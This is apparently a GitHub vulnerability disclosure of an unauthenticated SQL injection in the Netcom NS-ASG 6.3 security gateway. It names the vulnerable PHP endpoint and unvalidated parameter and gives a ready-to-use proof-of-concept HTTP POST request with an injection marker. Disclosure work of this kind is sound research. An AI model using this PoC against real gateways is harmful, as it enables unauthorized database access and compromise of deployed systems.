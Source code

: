 There is a SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.

official website:https://www.netentsec.com/

version:NS-ASG 6.3

Vulnerability points：/protocol/iscgwtunnel/uploadiscgwrouteconf.php
analyse as below:
Accept the array $GWLinkId through the variable messagecontent, then traverse the $GWLinkId variable and directly substitute it into the sql statement without any verification. Causing unauthorized sql injection

<img width="416" alt="image" src="https://github.com/istlnight/cve/assets/143585263/29b824d9-8e18-44b6-8bca-29efd4be4575">


As follows, there is no validation during the execution of SQL injection

Poc：
```
POST /protocol/index.php HTTP/1.1
Host: 127.0.0.1
Cookie: PHPSESSID=bfd2e9f9df564de5860117a93ecd82de
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 73

jsoncontent={"protocolType":"uploadiscgwtunnel","messagecontent":["1*"]}
```

<img width="416" alt="image" src="https://github.com/istlnight/cve/assets/143585263/c145558c-1a11-4626-ba05-dbe4623c09de">

<img width="416" alt="image" src="https://github.com/istlnight/cve/assets/143585263/09047ca3-f248-4f1b-8995-26cb40588d82">


